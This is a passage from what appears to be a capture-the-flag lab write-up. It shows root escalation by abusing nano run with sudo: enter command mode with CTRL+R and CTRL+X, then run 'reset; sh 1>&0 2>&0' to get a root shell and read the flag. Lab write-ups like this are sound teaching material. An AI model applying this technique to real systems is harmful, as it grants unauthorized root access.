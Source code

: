 i recognized that i am executing nano with sudo privileges when i choose "read" as option. checking [GTFOBINS](https://gtfobins.github.io/gtfobins/nano/#sudo) got me the next step.

![image](/images/Pasted image 20230822231237.png)

after getting into *command mode* in nano with `CTRL + R` and `CTRL + X`

![image](/images/Pasted image 20230822231214.png)

i just needed to type `reset; sh 1>&0 2>&0` to get a root shell.

```shell
# cd /root
# ls
report.txt  root.txt
# cat root.txt
THM{ba*********************************87}
```

going to `/root` i found the last flag in `root.txt`

[L0]
